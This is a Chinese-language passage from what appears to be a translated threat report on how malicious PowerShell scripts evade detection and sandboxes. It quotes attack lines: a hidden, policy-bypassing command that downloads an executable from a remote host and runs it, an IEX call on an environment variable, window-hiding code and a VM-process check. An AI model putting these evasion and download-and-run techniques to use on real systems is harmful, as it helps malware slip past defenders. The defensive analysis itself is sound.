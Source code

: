 如果扩展的日志记录开启了，将会有大量字符混淆会被记录之前删除，因此恶意脚本会在检测到之前就已经执行了，建议将前瞻性的方法和日志监视结合起来。 
 
### DISGUISING SCRIPTS(伪装脚本) 

有多种方法允许 powershell 脚本不直接使用 powershell.exe 来执行，这些技术可以欺骗基于使用 powershell.exe 或黑名单方式的安全工具。这主要的两个方法使用.NET 框架来工作 (使用 nps 和 Powerpick)或使用单独的运行空间(使用 p0wnedshell 和 PSattack).有各种各样的工具，例如 PS2EXE，它创建一个独立的执行文件，在.NETde 对象的帮助下来执行 powershell 脚本。 

另一样技术涉及良性工具 MSBuildShell, 使用 .NET 中的 `MSbuild `和
`System.management.Automation `函数来创建一个 powershell 实例，MSBuildShell 可以启动一个 powershell 实例用下面的命令: 

```
    msbuild.exe c:\MSBuildShell.csproj 
```

其它的攻击者，尝试通过添加合法的方法来混淆检测工具，类似 ping 添加进命令行，这些无用的命令还将延迟 payload 的执行，例如下面的命令 

```
%SYSTEM%\cmd.exe /c ping localhost & powershell. 
exe -executionpolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient). downloadfile(‘http://[REMOVED]/wp-admin/ f915df4a50447.exe’,’%USERAPPDATA%cNZ49.exe’); stARt- 
ProcEss ‘%USERAPPDATA%cNZ49.exe’ 
```

有些恶意脚本也会使用 echo 和 type 命令，并通过管道符来发送内容，甚至将 payload 复制到记事本或写字板，这个脚本然后使用其他的实例执行这个位置的 payload。这些操作会打断执行链，因为在最后，它不是同一 powershell 实例在运行 payload。攻击者常常使用模块化方法来混淆基于行为检测的措施，恶意操作在多个进程中传播。 

也可以在 powershell 中自动化其它应用程序，例如使用 COM 对象或者 SendKeys 来强制其它应用程序执行网络连接，一个实例，powershell 脚本可以创建一个 Internet Explorer COM 对象使它获取一个 URL，然后可以在脚本找那个加载该网页的内容，并且执行该网页的一部分。日志将显示标准浏览器进行互联网连接，这似乎不可疑。 

另外通常的方法，攻击者用来避免启动 powershell.exe 是将脚本存储在环境变量中，然后从变量中调用脚本。Trojan.Kotver 广泛使用该方法，命令行仍将显示在 powershell 日志文件中，但是在大多数情况下，执行的实际脚本可能丢失，例如: 

```
Cmd.exe /c “set myName=[COMMAND] && powershell IEX $env:myName” 
```

如果攻击者无法控制脚本的执行方式，一旦它启动，然后脚本可以尝试隐藏它自己的可见窗口，这是由安全研究员 Jeff Wouters 在 2015 发现。即使脚本窗口在一瞬间可见，它可能会被忽视，例如: 

```
Add-Type -Name win -MemberDefinition 
‘[DllImport(“user32.dll”)] public static extern bool 
ShowWindow(int handle, int state);’ -Namespace native [native.win]::ShowWindow(([System.Diagnostics. 
Process]::GetCurrentProcess() | Get-Process). 
MainWindowHandle,0) 
```

我们还发现攻击者使用多种文件同时出现，这是有效的多种文件格式，一个文件可以是一个有效的 HTML、WinRAR 和 powershell 脚本一起。根据脚本调用的方式，它会生成不同的结果，这样的行为会迷惑自动的安全系统。这可能有助于逃避检测的威胁。最近看到一个类似的方法，powershell脚本隐藏在证书里(http://pastebin.com/nhtVrdgs)。 

正如其它安全研究员所建议的，powershell 中的 Securestring 功能或 Cryptographic MessageSyntax 准许以加密的形式发送命令，这使得命令在传输中很难去分析。密码可以在以后提供解密和运行脚本。 
  
基础的混淆技术不能防止分析威胁，但是它们可以使检测和分析难度加大，然而加密的使用会严重阻碍甚至阻止分析。有个例子被认为突破性的，是 W32.Gauss 恶意软件，如果验证了文件路径，并且目标计算机符合某些其它条件，威胁就会解密 payload，如果一个安全研究员的虚拟机不匹配这个条件，这个恶意软件就不会解密，因此研究员将无法分析恶意软件。 
Ebowla(https://github.com/Genetic-Malware/Ebowla/blob/master/README.md)工具为各种 payload(包括 powershell 脚本)提供此功能，这脚本只会在特定条件下运行。像预定义的用户名被满足，这使得有针对性的感染，很难用一般的检测方法进行过滤。 
Hiding from virtual machine environments(从虚拟机环境中隐藏) 

Powershell 可以检测如果脚本运行在一个虚拟机环境，它会停止执行，虚拟环境可能是一个沙箱。我们遇到的最常见的沙箱逃逸方法是检查具有建议虚拟环境的名称的进程: 

```
 (get-process|select-string -pattern vboxservice,vboxtray,proxifier,prl_cc,prl_ tools,vmusrvc,vmsrvc,vmtoolsd).count 
```

脚本还可以检查环境的 BIOS、登录用户、或其他在沙箱中分析的广泛已知的检测方法。 
  
